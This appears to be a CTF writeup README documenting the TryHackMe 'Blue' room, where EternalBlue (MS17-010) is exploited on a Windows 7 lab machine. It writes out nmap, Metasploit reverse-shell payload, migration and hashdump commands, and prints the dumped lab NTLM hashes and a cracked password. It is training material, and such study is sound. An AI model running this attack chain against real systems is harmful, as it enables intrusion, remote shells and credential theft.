







# CTF Writeups

A collection of CTF and TryHackMe room writeups documenting methodology,
tools used, and key learnings from each challenge.

---

## TryHackMe — Blue (Completed 100%)

**Difficulty:** Easy
**Category:** Windows, Exploitation, Privilege Escalation
**Room:** https://tryhackme.com/room/blue
**Focus:** EternalBlue (MS17-010), Metasploit, Password Cracking

---

### Overview
Blue is a Windows 7 machine vulnerable to EternalBlue (MS17-010) —
the NSA exploit leaked by Shadow Brokers and used in the 2017 WannaCry
ransomware attack. The room covers reconnaissance, exploitation,
privilege escalation, and credential dumping.

---

### Task 1 — Recon

**Tool:** Nmap

**Command:**
```bash
nmap -sV 10.48.172.219
```

**Findings:**

| Port | Service | Notes |
|---|---|---|
| 135/tcp | msrpc | Microsoft Windows RPC |
| 139/tcp | netbios-ssn | Windows netbios |
| 445/tcp | microsoft-ds | SMB — key attack surface |
| 3389/tcp | tcpwrapped | RDP |

**Ports under 1000:** 3 (135, 139, 445)

**Vulnerability identified:** MS17-010 (EternalBlue) — port 445 open
on Windows 7 SP1 x64, unpatched SMB service.

---

### Task 2 — Exploitation

**Tool:** Metasploit

**Exploit:** `exploit/windows/smb/ms17_010_eternalblue`

**Commands:**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.48.172.219
set LHOST 10.48.143.92
set payload windows/x64/meterpreter/reverse_tcp
run
```

**Result:** Meterpreter session opened successfully.
ETERNALBLUE overwrite completed, stage sent, session established.

---

### Task 3 — Privilege Escalation

**Commands:**
```bash
getsystem
getuid
shell
whoami
```

**Result:**
- `getsystem` → Already running as SYSTEM
- `getuid` → NT AUTHORITY\SYSTEM
- `whoami` → nt authority\system

Full SYSTEM level access achieved immediately after exploitation —
no additional escalation steps required due to EternalBlue directly
granting SYSTEM privileges.

**Process migration:**
```bash
ps
migrate 1276
```

Migrated to `spoolsv.exe` (PID 1276) running as NT AUTHORITY\SYSTEM
to stabilise the session.

---

### Task 4 — Password Cracking

**Commands:**
```bash
hashdump
```

**Hashes dumped:**
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

**Cracking Jon's hash:**

Tool: CrackStation (crackstation.net)
Hash: `ffb43f0de35be4d9917ac0cc8ad57f8d`
Type: NTLM
Result: **alqfna22**

---

### Task 5 — Flags

Three flags found on the system:

| Flag | Location |
|---|---|
| Flag 1 | C:\flag1.txt |
| Flag 2 | C:\Windows\System32\config\flag2.txt |
| Flag 3 | C:\Users\Jon\Documents\flag3.txt |

---

### Screenshots

| Screenshot | Description |
|---|---|
|  | EternalBlue exploit running and Meterpreter session opened |
|  | NT AUTHORITY\SYSTEM confirmed via getuid |
|  | whoami confirming nt authority\system in DOS shell |
|  | Process list and migration to PID 1276 |
|  | NTLM hashes dumped from SAM database |
|  | Jon's hash cracked via CrackStation |
|  | Room completed 100% |

---

### Key Learnings

- EternalBlue exploits an SMB buffer overflow vulnerability in
  Windows 7/Server 2008 — patched in MS17-010 but still found on
  unpatched systems in real environments
- Metasploit's EternalBlue module grants direct SYSTEM access —
  no additional privilege escalation required on vulnerable targets
- NTLM hashes can be cracked offline using rainbow tables —
  weak passwords like alqfna22 are trivially crackable
- Process migration is important for session stability — migrating
  to a stable SYSTEM process prevents session drops
- This vulnerability was used in the WannaCry and NotPetya attacks
  in 2017 — understanding it is essential for any SOC analyst

---

### Tools Used
- Nmap 7.80 — network reconnaissance
- Metasploit 6.4 — exploitation framework
- CrackStation — NTLM hash cracking

### Environment
- Attacker: TryHackMe AttackBox (Ubuntu)
- Target: Windows 7 Professional SP1 x64
- Platform: TryHackMe
